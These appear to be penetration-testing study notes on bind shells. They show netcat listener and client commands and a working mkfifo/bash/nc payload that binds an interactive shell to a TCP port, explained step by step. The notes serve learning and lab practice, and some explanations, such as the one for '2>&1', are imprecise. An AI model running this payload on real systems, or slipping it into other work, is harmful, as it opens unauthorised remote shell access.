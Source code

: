 - Working to establish a shell on a system on a local or remote network. 
- It means the tester has to use the `Terminal emulator` on a local machine to control the remote system through its shell.
- This can be done using a `Bind` &/or `Reverse Shell`.

- ## Bind Shell: 
	- The target system `has a listener started and awaits a connection` from a pentester's system.  
	
		- There can be many challenges associated with getting a shell this way.
		
			-  There would have to be a listener already started on the target.
			- If there is no listener started, we would need to find a way to make this happen.
			- Admins typically configure strict firewall rules and `NAT {Network Address Translation} with (PAT implementation)` on the edge of the network(public-facing) so we would need to be no the internal network already .
			- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.
		
		- #### Practicing With Netcat:
		
			- Interacting with the target machine to understand the nature of bind shell.
			
				- ### No. 1: Server - Target starting Netcat listener:
				
					- `nc -lvnp <port>`
						- Here the target is the server and the pentester is the client. 
						- Once the above command is executed the listener is started and awaiting a connection from the client.
				
				- ### No. 2: Client:
				
					- `nc -nv <IP_of_target> <port>`
						- Using `nc` on the client and the server.  

			- On the `Client-side` only the server's IP address is specified and the same port too.
			- If the listener is functioning properly then the connection is working perfectly.
				
				- ### No. 3: Server - Target receiving connection from client
				
					- `nc -lvnp <port>`
					- `Listening on [0.0.0.0] (family 0, port <port>)`
					- `Connection from <attacter_IP> <port> received!` {only if the connection work properly}.
				
				- ### No. 4: Client - Sending message (HI!)
				
					- `nc -nv <IP> <port>`
					- `Connection to <IP> <port> port [tcp/*] succeeded!`
					- `HI!`
				
				- ### No. 5: Server Target receiving (HI!) messages
				
					- `nc -lvnp <port>`
					- `Listening on [0.0.0.0] (family -,  port <port>)`
					- `Connection from <target> <port> received!`
					- `HI!`
					
	- ## Establishing a Basic Bind Shell with Netcat:
	
		- ###  No. 1: Server - Binding a Bash shell to the TCP session
		
			-  `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <IP> <port> > /tmp/f`
			
				- The command above are considered as a payload.
				- Explanation of the payload:
					- `rm -f /tmp/f`: force remove the `/tmp/f` from the target system.
					- `mkfifo /tmp/f`: makes a new `/tmp/f` acts like a `communication channel between processess` 
					- `cat /tmp/f`: reads the new `FIFO`.
					- `/bin/bash -i 2>&1`: sends everything from new `cat /tmp/f`.
						- `2>&1`: if any error then it sends to error handler.
					- `nc -l <IP> <port> > /tmp/f` : creates a remote bind shell.
						- `> /tmp/f`: push all the data or info to newly created `/tmp/f`
				
			- ==/tmp/f== is used as a bridge between `bash` and `nc`  
		
		- ### No. 2: Client - Connecting to bind shell on target:
			
			- `nc -nv <IP> <port>`
			- `Target@server:~` {a remote bind shell as a result}

[[Shells]]
